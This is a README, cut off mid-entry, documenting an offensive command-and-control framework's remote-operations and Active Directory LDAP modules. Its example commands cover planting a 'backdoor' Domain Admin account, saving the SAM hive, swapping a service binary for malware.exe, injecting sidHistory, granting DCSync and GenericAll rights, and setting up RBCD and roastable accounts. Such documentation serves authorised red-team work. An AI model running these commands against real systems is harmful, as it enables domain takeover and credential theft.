

# Remote Operations Modules <!-- omit from toc -->

## Contents <!-- omit from toc -->

- [Overview](#overview)
  - [add-user](#add-user)
  - [add-groupmembership](#add-groupmembership)
  - [enable-user](#enable-user)
  - [unexpire-user](#unexpire-user)
  - [set-password](#set-password)
  - [reg-set](#reg-set)
  - [reg-delete](#reg-delete)
  - [reg-save](#reg-save)
  - [sc-config](#sc-config)
  - [sc-create](#sc-create)
  - [sc-delete](#sc-delete)
  - [sc-start](#sc-start)
  - [sc-stop](#sc-stop)
  - [schtasks-create](#schtasks-create)
  - [schtasks-delete](#schtasks-delete)
  - [schtasks-start](#schtasks-start)
  - [schtasks-stop](#schtasks-stop)
  - [shutdown](#shutdown)
- [LDAP Operations](#ldap-operations)
  - [get-users](#get-users)
  - [get-computers](#get-computers)
  - [get-groups](#get-groups)
  - [get-usergroups](#get-usergroups)
  - [get-groupmembers](#get-groupmembers)
  - [get-object](#get-object)
  - [get-domaininfo](#get-domaininfo)
  - [get-maq](#get-maq)
  - [get-writable](#get-writable)
  - [get-delegation](#get-delegation)
  - [get-uac](#get-uac)
  - [get-attribute](#get-attribute)
  - [get-spn](#get-spn)
  - [get-acl](#get-acl)
  - [get-rbcd](#get-rbcd)
  - [add-user](#add-user-1)
  - [add-computer](#add-computer)
  - [add-group](#add-group)
  - [add-groupmember](#add-groupmember)
  - [add-ou](#add-ou)
  - [add-sidhistory](#add-sidhistory)
  - [add-spn](#add-spn)
  - [add-attribute](#add-attribute)
  - [add-uac](#add-uac)
  - [add-delegation](#add-delegation)
  - [add-ace](#add-ace)
  - [add-rbcd](#add-rbcd)
  - [add-genericall](#add-genericall)
  - [add-genericwrite](#add-genericwrite)
  - [add-dcsync](#add-dcsync)
  - [add-asreproastable](#add-asreproastable)
  - [add-unconstrained](#add-unconstrained)
  - [add-constrained](#add-constrained)
  - [set-password](#set-password-1)
  - [set-spn](#set-spn)
  - [set-delegation](#set-delegation)
  - [set-attribute](#set-attribute)
  - [set-uac](#set-uac)
  - [set-owner](#set-owner)
  - [move-object](#move-object)
  - [remove-groupmember](#remove-groupmember)
  - [remove-object](#remove-object)
  - [remove-spn](#remove-spn)
  - [remove-delegation](#remove-delegation)
  - [remove-attribute](#remove-attribute)
  - [remove-uac](#remove-uac)
  - [remove-ace](#remove-ace)
  - [remove-rbcd](#remove-rbcd)
  - [remove-dcsync](#remove-dcsync)
  - [remove-genericwrite](#remove-genericwrite)
  - [remove-genericall](#remove-genericall)
- [Outflank C2 Tool Collection](#outflank-c2-tool-collection)
  - [get-machineaccountquota](#get-machineaccountquota)
  - [add-machineaccount](#add-machineaccount)
  - [remove-machineaccount](#remove-machineaccount)
  - [askcreds](#askcreds)
  - [get-kerberoastable](#get-kerberoastable)
  - [kerberoast](#kerberoast)
  - [lapsdump](#lapsdump)
  - [petitpotam](#petitpotam)


## Overview

The remote operations modules provide commands for managing users, registry keys, services, scheduled tasks, and system state on local and remote systems. All commands are implemented as BOF wrappers for [CS-Remote-OPs-BOF](https://github.com/trustedsec/CS-Remote-OPs-BOF). The module contains the following commands:

```
 * add-user                 Add a user to a machine.
 * add-groupmembership      Add a specified user to a group.
 * enable-user              Enable a specified user account.
 * unexpire-user            Unexpire and enable a specified user account.
 * set-password             Set the password of a target user account.
 * reg-set                  Create or set a registry key/value on a target system.
 * reg-delete               Delete a registry key/value on a target system.
 * reg-save                 Save a specified registry key to a file on the target system.
 * sc-config                Configure an existing service on the target system.
 * sc-create                Create a service on the target system.
 * sc-delete                Delete a service on the target system.
 * sc-start                 Start a service on the target system.
 * sc-stop                  Stop a service on the target system.
 * schtasks-create          Create a scheduled task on the target system.
 * schtasks-delete          Delete a scheduled task or task folder on the target system.
 * schtasks-start           Run a scheduled task on the target system.
 * schtasks-stop            Stop a running scheduled task on the target system.
 * shutdown                 Shutdown or reboot a target system.
```

### add-user
Add a user to a machine.

```
Usage  : add-user <username> <password> [--server <server>]
Example: add-user backdoor Password123!

Required arguments:
  username                  STRING     Username of the new account.
  password                  STRING     Password of the new account.

Optional arguments:
  --server server           STRING     Specify target system (default: local computer).
```

### add-groupmembership
Add a specified user to a group.

```
Usage  : add-groupmembership <user> <group> [--server <server>]
Example: add-groupmembership conquest.local\backdoor "Domain Admins" --server dc01

Required arguments:
  user                      STRING     Target account in format domain.local\username.
                                       If the user is a local account, only specify the username.
  group                     STRING     Name of the target group.

Optional arguments:
  --server server           STRING     Specify target system (default: local computer).
```

### enable-user
Enable a specified user account.

```
Usage  : enable-user <user>
Example: enable-user conquest.local\user

Required arguments:
  user                      STRING     Target account in format domain.local\username.
                                       If the user is a local account, only specify the username.
```

### unexpire-user
Unexpire and enable a specified user account.

```
Usage  : unexpire-user <user>
Example: unexpire-user conquest.local\user

Required arguments:
  user                      STRING     Target account in format domain.local\username.
                                       If the user is a local account, only specify the username.
```

### set-password
Set the password of a target user account.

```
Usage  : set-password <user> <password>
Example: set-password conquest.local\user Password123!

Required arguments:
  user                      STRING     Target account in format domain.local\username.
                                       If the user is a local account, only specify the username.
  password                  STRING     New password.
```

### reg-set
Create or set a registry key/value on a target system.

```
Usage  : reg-set <hive> <path> <type> <data> [--key <key>] [--server <server>]
Example: reg-set HKCU "Software\TestApp" REG_SZ "Hello World" --key TestValue

Required arguments:
  hive                      STRING     Registry hive.
                                         - HKCR    HKEY_CLASSES_ROOT
                                         - HKCU    HKEY_CURRENT_USER
                                         - HKLM    HKEY_LOCAL_MACHINE
                                         - HKU     HKEY_USERS
  path                      STRING     Path to the registry key to modify.
  type                      STRING     Type of the registry value.
  data                      STRING     Data to store in the registry value.
                                       For REG_BINARY, provide a file path.

Optional arguments:
  --key key                 STRING     Name of the registry value (default: "").
  --server server           STRING     Target server for remote registry (default: local computer).
```

Available registry types:

| Type | Description |
| --- | --- |
| `REG_SZ` | String value |
| `REG_EXPAND_SZ` | Expandable string |
| `REG_BINARY` | Binary data (provide file path as data) |
| `REG_DWORD` | 32-bit integer |
| `REG_MULTI_SZ` | Multiple strings |
| `REG_QWORD` | 64-bit integer |

### reg-delete
Delete a registry key/value on a target system.

```
Usage  : reg-delete <hive> <path> [--key <key>] [--delete-key] [--server <server>]
Example: reg-delete HKCU "Software\TestApp" --key myValue

Required arguments:
  hive                      STRING     Registry hive.
                                         - HKCR    HKEY_CLASSES_ROOT
                                         - HKCU    HKEY_CURRENT_USER
                                         - HKLM    HKEY_LOCAL_MACHINE
                                         - HKU     HKEY_USERS
  path                      STRING     Path to the registry key to delete.

Optional arguments:
  --key key                 STRING     Name of the registry value to delete (default: "").
  --delete-key              BOOL       Delete the entire registry key.
  --server server           STRING     Target server for remote registry (default: local computer).
```

### reg-save
Save a specified registry key to a file on the target system. Automatically enables `SeBackupPrivilege` before execution.

```
Usage  : reg-save <hive> <path> <output-file>
Example: reg-save HKLM SAM C:\Windows\Tasks\sam.txt

Required arguments:
  hive                      STRING     Registry hive.
                                         - HKCR    HKEY_CLASSES_ROOT
                                         - HKCU    HKEY_CURRENT_USER
                                         - HKLM    HKEY_LOCAL_MACHINE
                                         - HKU     HKEY_USERS
  path                      STRING     Path to the registry key to save.
  output-file               STRING     Output file path on the target system.
```

### sc-config
Configure an existing service on the target system.

```
Usage  : sc-config <service> [binPath] [--error-mode <mode>] [--start-mode <mode>] [--server <server>]
Example: sc-config ConquestSvc C:\Temp\malware.exe

Required arguments:
  service                   STRING     Service to configure.

Optional arguments:
  binPath                   STRING     Binary path to set on the service.
  --error-mode mode         INT        Error mode (default: 1).
                                         - 0: ignore errors
                                         - 1: normal logging
                                         - 2: log severe errors
                                         - 3: log critical errors
  --start-mode mode         INT        Start mode (default: 2).
                                         - 2: auto start
                                         - 3: on demand start
                                         - 4: disabled
  --server server           STRING     Hostname or IP address of the target system (default: local computer).
```

### sc-create
Create a service on the target system.

```
Usage  : sc-create <service> <display-name> <binPath> [--description <desc>] [--error-mode <mode>] [--start-mode <mode>] [--sc-type <type>] [--server <server>]
Example: sc-create ConquestSvc "Conquest Service" C:\Windows\System32\calc.exe --description "Conquest service description."

Required arguments:
  service                   STRING     Service name.
  display-name              STRING     Display name of the service.
  binPath                   STRING     Binary path of the service.

Optional arguments:
  --description desc        STRING     Description of the service (default: "").
  --error-mode mode         INT        Error mode (default: 1).
                                         - 0: ignore errors
                                         - 1: normal logging
                                         - 2: log severe errors
                                         - 3: log critical errors
  --start-mode mode         INT        Start mode (default: 2).
                                         - 2: auto start
                                         - 3: on demand start
                                         - 4: disabled
  --sc-type type            STRING     Service type (default: SERVICE_WIN32_OWN_PROCESS).
                                         - SERVICE_FILE_SYSTEM_DRIVER
                                         - SERVICE_KERNEL_DRIVER
                                         - SERVICE_WIN32_OWN_PROCESS
                                         - SERVICE_WIN32_SHARE_PROCESS
  --server server           STRING     Hostname or IP address of the target system (default: local computer).
```

### sc-delete
Delete a service on the target system.

```
Usage  : sc-delete <service> [--server <server>]
Example: sc-delete ConquestSvc --server dc01

Required arguments:
  service                   STRING     Name of the service to delete.

Optional arguments:
  --server server           STRING     Hostname or IP address of the target system (default: local computer).
```

### sc-start
Start a service on the target system.

```
Usage  : sc-start <service> [--server <server>]
Example: sc-start ConquestSvc --server dc01

Required arguments:
  service                   STRING     Name of the service to start.

Optional arguments:
  --server server           STRING     Hostname or IP address of the target system (default: local computer).
```

### sc-stop
Stop a service on the target system.

```
Usage  : sc-stop <service> [--server <server>]
Example: sc-stop ConquestSvc --server dc01

Required arguments:
  service                   STRING     Name of the service to stop.

Optional arguments:
  --server server           STRING     Hostname or IP address of the target system (default: local computer).
```

### schtasks-create
Create a scheduled task on the target system using an XML task definition.

```
Usage  : schtasks-create <task> <xml> [--user-mode <mode>] [--user <user>] [--password <password>] [--update] [--server <server>]
Example: schtasks-create "\MyTasks\TestTask" /local/path/to/task.xml --user-mode SYSTEM --update

Required arguments:
  task                      STRING     Path for the scheduled task to create.
  xml                       FILE       File containing the XML task definition.
                                       Export from existing task: schtasks /query /tn "\Task" /xml > task.xml

Optional arguments:
  --user-mode mode          STRING     User context for the task (default: USER).
                                         - USER:     current user context
                                         - XML:      user from XML task definition
                                         - SYSTEM:   local system service
                                         - PASSWORD: credentials via --user and --password
  --user user               STRING     Username the task will run as (default: current user).
  --password password       STRING     Password of the user the task will run as (default: current user).
  --update                  BOOL       Update the task if it already exists.
  --server server           STRING     Hostname or IP address of the target system (default: local computer).
```

### schtasks-delete
Delete a scheduled task or task folder on the target system. Exactly one of `--task` or `--folder` must be specified.

```
Usage  : schtasks-delete [--task <task>] [--folder <folder>] [--server <server>]
Example: schtasks-delete --folder \MyTasks

Optional arguments:
  --task task               STRING     Path of the scheduled task to delete.
  --folder folder           STRING     Path of the folder to delete (must be empty).
  --server server           STRING     Hostname or IP address of the target system (default: local computer).
```

### schtasks-start
Run a scheduled task on the target system.

```
Usage  : schtasks-start <task> [--server <server>]
Example: schtasks-start \MyTasks\ConquestTask

Required arguments:
  task                      STRING     Path of the scheduled task to run.

Optional arguments:
  --server server           STRING     Hostname or IP address of the target system (default: local computer).
```

### schtasks-stop
Stop a running scheduled task on the target system.

```
Usage  : schtasks-stop <task> [--server <server>]
Example: schtasks-stop \MyTasks\ConquestTask

Required arguments:
  task                      STRING     Path of the scheduled task to stop.

Optional arguments:
  --server server           STRING     Hostname or IP address of the target system (default: local computer).
```

### shutdown
Shutdown or reboot a target system. The `--confirm` flag is required as a safety net to prevent accidental execution.

```
Usage  : shutdown [target] [--message <message>] [--in <seconds>] [--close-apps] [--reboot] [--confirm]
Example: shutdown --message "Goodbye from Conquest" --in 20 --reboot --confirm

Optional arguments:
  target                    STRING     Target system (default: local computer).
  --message message         STRING     Message to display before shutdown (default: none).
  --in seconds              INT        Seconds before shutdown/reboot (default: 0).
  --close-apps              BOOL       Close all running applications without saving.
  --reboot                  BOOL       Reboot system after shutdown.
  --confirm                 BOOL       Confirm shutdown. Required to proceed.
```

## LDAP Operations

The LDAP BOF collection provides commands for comprehensive Active Directory enumeration and manipulation via LDAP. All commands are implemented as wrappers for the modified BOFs from [LDAP-BOF-Collection](https://github.com/P0142/ldap-bof-collection) and support automatic DN/username detection, LDAPS (port 636), and OU-scoped queries. The module contains the following commands:

```
 * get-users                List all users in the domain.
 * get-computers            List all computers in the domain.
 * get-groups               List all groups in the domain.
 * get-usergroups           List all groups a user is a member of.
 * get-groupmembers         List all members of a group.
 * get-object               Get all attributes of an object.
 * get-domaininfo           Get domain information from rootDSE.
 * get-maq                  Get machine account quota (ms-DS-MachineAccountQuota).
 * get-writable             Find objects you have write access to.
 * get-delegation           Get delegation configuration for an object.
 * get-uac                  Get UAC flags for an object.
 * get-attribute            Get specific attribute values.
 * get-spn                  Get SPNs for an object.
 * get-acl                  Get ACL/security descriptor for an object.
 * get-rbcd                 Get RBCD configuration for an object.
 * add-user                 Add a user to the domain.
 * add-computer             Add a computer to the domain.
 * add-group                Add a group to the domain.
 * add-groupmember          Add a member to a group.
 * add-ou                   Add an organizational unit.
 * add-sidhistory           Add a SID to an object's sidHistory attribute.
 * add-spn                  Add an SPN to an object.
 * add-attribute            Add a value to an attribute.
 * add-uac                  Add UAC flags to an object.
 * add-delegation           Add a delegation SPN to an object.
 * add-ace                  Add an ACE to an object's DACL.
 * add-rbcd                 Add an RBCD delegation.
 * add-genericall           Add a GenericAll ACE to an object's DACL.
 * add-genericwrite         Add a GenericWrite ACE to an object's DACL.
 * add-dcsync               Add a DCSync ACE to an object's DACL.
 * add-asreproastable       Make a user AS-REP roastable (set DONT_REQ_PREAUTH).
 * add-unconstrained        Enable unconstrained delegation on an object.
 * add-constrained          Set/replace delegation SPNs (constrained delegation).
 * set-password             Set/reset a user's password.
 * set-spn                  Set/replace all SPNs on an object.
 * set-delegation           Set/replace delegation SPNs.
 * set-attribute            Set/replace an attribute value.
 * set-uac                  Set UAC flags (replaces all).
 * set-owner                Set the owner of an object (requires WriteOwner).
 * move-object              Move an object to a different OU.
 * remove-groupmember       Remove a member from a group.
 * remove-object            Remove an object from the domain.
 * remove-spn               Remove an SPN from an object.
 * remove-delegation        Remove a delegation SPN.
 * remove-attribute         Remove an attribute or attribute value.
 * remove-uac               Remove UAC flags from an object.
 * remove-ace               Remove an ACE from an object's DACL.
 * remove-rbcd              Remove an RBCD delegation.
 * remove-dcsync            Remove a DCSync ACE from an object's DACL.
 * remove-genericwrite      Remove a GenericWrite ACE from an object's DACL.
 * remove-genericall        Remove a GenericAll ACE from an object's DACL.
```

### get-users
List all users in the domain.

```
Usage  : get-users [--ou <path>] [--dc <fqdn>] [--attributes <attributes>] [--ldaps]
Example: get-users --ou "OU=Users,DC=conquest,DC=local" --dc dc01.conquest.local --attributes description,mail

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --attributes attributes   STRING     Comma-separated list of attributes to retrieve.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-computers
List all computers in the domain.

```
Usage  : get-computers [--ou <path>] [--dc <fqdn>] [--attributes <attributes>] [--ldaps]
Example: get-computers --ou "OU=Computers,DC=conquest,DC=local" --dc dc01.conquest.local --attributes description,operatingSystem

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --attributes attributes   STRING     Comma-separated list of attributes to retrieve.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-groups
List all groups in the domain.

```
Usage  : get-groups [--ou <path>] [--dc <fqdn>] [--attributes <attributes>] [--ldaps]
Example: get-groups --ou "OU=Groups,DC=conquest,DC=local" --dc dc01.conquest.local --attributes description,member

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --attributes attributes   STRING     Comma-separated list of attributes to retrieve.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-usergroups
List all groups a user is a member of.

```
Usage  : get-usergroups <user> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: get-usergroups julius --ou "OU=Users,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  user                      STRING     Username or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-groupmembers
List all members of a group.

```
Usage  : get-groupmembers <group> [--ou <path>] [--dc <fqdn>]
Example: get-groupmembers "Domain Admins" --ou "OU=Groups,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  group                     STRING     Group name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
```

### get-object
Get all attributes of an object.

```
Usage  : get-object <target> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: get-object julius --ou "OU=Users,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-domaininfo
Get domain information from rootDSE.

```
Usage  : get-domaininfo [--dc <fqdn>] [--ldaps]
Example: get-domaininfo --dc dc01.conquest.local

Optional arguments:
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-maq
Get machine account quota (ms-DS-MachineAccountQuota).

```
Usage  : get-maq [--dc <fqdn>] [--ldaps]
Example: get-maq --dc dc01.conquest.local

Optional arguments:
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-writable
Find objects you have write access to.

```
Usage  : get-writable [--ou <path>] [--dc <fqdn>] [--ldaps] [--detailed]
Example: get-writable --ou "OU=Projects,DC=conquest,DC=local" --dc dc01.conquest.local --detailed

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
  --detailed                BOOL       Show detailed output.
```

### get-delegation
Get delegation configuration for an object.

```
Usage  : get-delegation <target> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: get-delegation machine01$ --ou "OU=Computers,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-uac
Get UAC flags for an object.

```
Usage  : get-uac <target> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: get-uac julius --ou "OU=Users,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-attribute
Get specific attribute values.

```
Usage  : get-attribute <target> <attributes> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: get-attribute julius objectSid,mail,description --ou "OU=Users,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  attributes                STRING     Comma-separated list of attribute names.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-spn
Get SPNs for an object.

```
Usage  : get-spn <target> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: get-spn machine01$ --ou "OU=Computers,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### get-acl
Get ACL/security descriptor for an object.

```
Usage  : get-acl <target> [--ou <path>] [--dc <fqdn>] [--ldaps] [--resolve]
Example: get-acl julius --ou "OU=Users,DC=conquest,DC=local" --dc dc01.conquest.local --resolve

Required arguments:
  target                    STRING     Object name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
  --resolve                 BOOL       Resolve SID names.
```

### get-rbcd
Get RBCD configuration for an object.

```
Usage  : get-rbcd <target> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: get-rbcd WEB01$ --ou "OU=Computers,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-user
Add a user to the domain.

```
Usage  : add-user <username> <password> [--fn <firstname>] [--ln <lastname>] [--email <email>] [--disabled] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-user julius 'P@ssw0rd!' --fn Julius --ln Caesar --email julius@conquest.local --ou "OU=Users,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  username                  STRING     Username or DN.
  password                  STRING     Password for the user.

Optional arguments:
  --fn firstname            STRING     First name.
  --ln lastname             STRING     Last name.
  --email email             STRING     Email address.
  --disabled                BOOL       Create account disabled.
  --ou path                 STRING     Target OU path.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-computer
Add a computer to the domain.

```
Usage  : add-computer <computer> [password] [--ou <path>] [--dc <fqdn>] [--disabled] [--ldaps]
Example: add-computer FAKE01 'Password123!' --ou "OU=Computers,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  computer                  STRING     Computer name or DN.

Optional arguments:
  password                  STRING     Password for the computer (default: Randomized).
  --ou path                 STRING     Target OU path.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --disabled                BOOL       Create account disabled.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-group
Add a group to the domain.

```
Usage  : add-group <groupname> [--desc <description>] [--type <type>] [--scope <scope>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-group WksAdmins --desc "Workstation Admins" --scope global --ou "OU=Groups,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  groupname                 STRING     Group name or DN.

Optional arguments:
  --desc description        STRING     Group description.
  --type type               STRING     Group type: security or distribution.
  --scope scope             STRING     Group scope: global, domainlocal, or universal.
  --ou path                 STRING     Target OU path.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-groupmember
Add a member to a group.

```
Usage  : add-groupmember <group> <member> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-groupmember "Domain Admins" julius --ou "OU=Groups,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  group                     STRING     Group name or DN.
  member                    STRING     Member name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-ou
Add an organizational unit.

```
Usage  : add-ou <ou_name> [--desc <description>] [--parent <parent_ou>] [--dc <fqdn>] [--ldaps]
Example: add-ou Research --desc "Research OU" --parent "OU=Departments,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  ou_name                   STRING     OU name or DN.

Optional arguments:
  --desc description        STRING     OU description.
  --parent parent_ou        STRING     Parent OU DN.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-sidhistory
Add a SID to an object's sidHistory attribute.

```
Usage  : add-sidhistory <target> <sid_source> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-sidhistory julius S-1-5-21-123456789-123456789-123456789-500 --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  sid_source                STRING     SID string, username, or DN to copy SID from.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-spn
Add an SPN to an object.

```
Usage  : add-spn <target> <spn> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-spn machine01 HOST/machine01.conquest.local --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  spn                       STRING     SPN to add.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-attribute
Add a value to an attribute.

```
Usage  : add-attribute <target> <attribute> <value> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-attribute julius description 'Some description' --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  attribute                 STRING     Attribute name.
  value                     STRING     Value to add.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-uac
Add UAC flags to an object.

```
Usage  : add-uac <target> <flags> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-uac julius DONT_REQ_PREAUTH --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  flags                     STRING     Comma-separated UAC flags.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-delegation
Add a delegation SPN to an object.

```
Usage  : add-delegation <target> <spn> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-delegation machine01 RestrictedKrbHost/machine01.conquest.local --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  spn                       STRING     Delegation SPN to add.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-ace
Add an ACE to an object's DACL.

```
Usage  : add-ace <target> <trustee> <rights> [--type <ace_type>] [--flags <flags>] [--guid <guid>] [--inherit-guid <inherit_guid>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-ace CN=SomeObject,DC=conquest,DC=local julius GenericAll --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  trustee                   STRING     Trustee name or DN.
  rights                    STRING     Access rights (e.g., GenericAll, WriteDacl, DCSync).

Optional arguments:
  --type ace_type           STRING     ACE type: allow (default), deny.
  --flags flags             STRING     ACE inheritance flags (e.g., CI,OI).
  --guid guid               STRING     Object type GUID.
  --inherit-guid inherit_guid STRING   Inherited object type GUID.
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-rbcd
Add an RBCD delegation.

```
Usage  : add-rbcd <target> <delegate> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-rbcd targetComputer$ principalAccount$ --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  delegate                  STRING     Object allowed to delegate.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-genericall
Add a GenericAll ACE to an object's DACL.

```
Usage  : add-genericall <target> <trustee> [--type <ace_type>] [--flags <flags>] [--guid <guid>] [--inherit-guid <inherit_guid>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-genericall CN=SomeObject,DC=conquest,DC=local julius --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  trustee                   STRING     Trustee name or DN.

Optional arguments:
  --type ace_type           STRING     ACE type: allow (default), deny.
  --flags flags             STRING     ACE inheritance flags (e.g., CI,OI).
  --guid guid               STRING     Object type GUID.
  --inherit-guid inherit_guid STRING   Inherited object type GUID.
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-genericwrite
Add a GenericWrite ACE to an object's DACL.

```
Usage  : add-genericwrite <target> <trustee> [--type <ace_type>] [--flags <flags>] [--guid <guid>] [--inherit-guid <inherit_guid>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-genericwrite CN=SomeObject,DC=conquest,DC=local julius --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  trustee                   STRING     Trustee name or DN.

Optional arguments:
  --type ace_type           STRING     ACE type: allow (default), deny.
  --flags flags             STRING     ACE inheritance flags (e.g., CI,OI).
  --guid guid               STRING     Object type GUID.
  --inherit-guid inherit_guid STRING   Inherited object type GUID.
  --ou path                 STRING     OU path to search.
